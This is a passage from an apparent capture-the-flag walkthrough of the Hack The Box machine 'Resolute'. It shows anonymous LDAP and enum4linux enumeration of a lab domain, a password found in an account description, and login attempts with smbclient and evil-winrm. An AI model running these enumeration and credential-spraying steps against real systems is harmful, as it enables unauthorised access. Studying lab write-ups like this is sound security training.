 ```shell
dn: CN=Schema Admins,CN=Users,DC=megabank,DC=local
dn: CN=Enterprise Admins,CN=Users,DC=megabank,DC=local
dn: CN=Cert Publishers,CN=Users,DC=megabank,DC=local
dn: CN=Domain Admins,CN=Users,DC=megabank,DC=local
dn: CN=Domain Users,CN=Users,DC=megabank,DC=local
dn: CN=Domain Guests,CN=Users,DC=megabank,DC=local
dn: CN=Group Policy Creator Owners,CN=Users,DC=megabank,DC=local
dn: CN=RAS and IAS Servers,CN=Users,DC=megabank,DC=local
```
Since LDAP can be queried by an anonymous user, we can collect user info.


### SMB Enumeration (139/445)
Let's try to find a shared folder on SMB. 
#### Enum4Linux
> Enum4linux is a tool for enumerating information from Windows and Samba systems.
Let's give it a shot:
```shell
root@kali:~/HackTheBox/Resolute# enum4linux resolute.htb
Starting enum4linux v0.8.9 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Sun Apr 19 15:48:28 2020

 ========================== 
|    Target Information    |
 ========================== 
Target ........... resolute.htb
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none
[...]
index: 0x10a9 RID: 0x457 acb: 0x00000210 Account: marko	Name: Marko Novak	Desc: Account created. Password set to Welcome123!
[...]
```
Did we just find credentials? Let's try them.
marko:Welcome123!
```shell
root@kali:~/HackTheBox/Resolute# smbclient -L resolute.htb -U "marko"
Enter WORKGROUP\marko's password: 
session setup failed: NT_STATUS_LOGON_FAILURE
root@kali:~/HackTheBox/Resolute# evil-winrm -i resolute.htb -u marko -p Welcome123!

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

Error: An error of type WinRM::WinRMAuthorizationError happened, message is WinRM::WinRMAuthorizationError

Error: Exiting with code 1
```
We at least know that probably all new users have their passwords set to Welcome123!. To be thorough, let's continue enumerating SMB looking for a shared folder.
